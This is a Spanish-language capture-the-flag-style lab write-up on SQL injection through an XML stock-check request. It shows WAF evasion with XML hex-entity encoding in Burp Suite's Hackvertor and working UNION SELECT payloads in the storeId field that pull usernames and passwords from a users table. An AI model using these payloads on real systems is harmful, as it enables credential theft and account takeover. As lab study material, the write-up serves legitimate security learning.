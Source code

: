 
En esta clase trabajamos con una vulnerabilidad de inyección SQL que se encuentra en la funcionalidad de consulta de stock, la cual recibe datos en formato XML. La clave está en el parámetro ‘**storeId**‘, donde se inyectan instrucciones SQL directamente dentro del cuerpo XML de una petición POST.

Inicialmente identificamos que el valor de ‘**storeId**‘ es evaluado por el backend, permitiendo realizar operaciones como ‘**1+1**‘. Luego intentamos una inyección clásica mediante ‘**UNION SELECT**‘, pero la aplicación bloquea el intento, presumiblemente por un sistema WAF (Web Application Firewall).

Para evadir este filtro, aplicamos codificación de entidades XML (por ejemplo, hexadecimal o decimal), utilizando herramientas como la extensión **Hackvertor** en Burp Suite. Este bypass permite que el payload pase desapercibido y sea ejecutado por el backend.

A través de prueba y error, determinamos que la consulta original solo permite devolver una columna, por lo que concatenamos ‘**username**‘ y ‘**password**‘ con un separador (~) para extraer los datos de la tabla ‘**users**‘ en una sola columna.

Finalmente, utilizamos las credenciales obtenidas para iniciar sesión como ‘**administrator**‘ y resolver el laboratorio.

Esta lección muestra cómo técnicas de evasión pueden ser aplicadas a vectores no tradicionales, como peticiones en XML, destacando la importancia de adaptar los ataques al formato de entrada y a las defensas activas del sistema

------

Debemos de dirigirnos al apartado de "Check stock" de los productos

En los campos de productId y storeId, hacemos pruebas

```xml
<productId>
    1 '
</productId>
```
```xml
<productId>
    1 order by 3
</productId>

<storeId>
    1 order by 1
</storeId>

<storeId>
    1 union select 1
</storeId>

usamos hackvector, para evadir el WAF
<storeId>
    <@hex_entities>
        1 union select 1
    </@hex_entities>
</storeId>

Probamos alternativas como:
<storeId>
    <@hex_entities>
        1 union select NULL
    </@hex_entities>
</storeId>

Probamos alternativas como:
<storeId>
    <@hex_entities>
        1 union select 'test'
    </@hex_entities>
</storeId>

Ahora ya podemos inyectar query para minar informacion
<storeId>
    <@hex_entities>
        1 union select username from users where username='administrator'
    </@hex_entities>
</storeId>

Para minar informacion de usuarios y contraseñas, hace lo siguiente:
<storeId>
    <@hex_entities>
        1 union select username||':'||password from users 
    </@hex_entities>
</storeId>
```





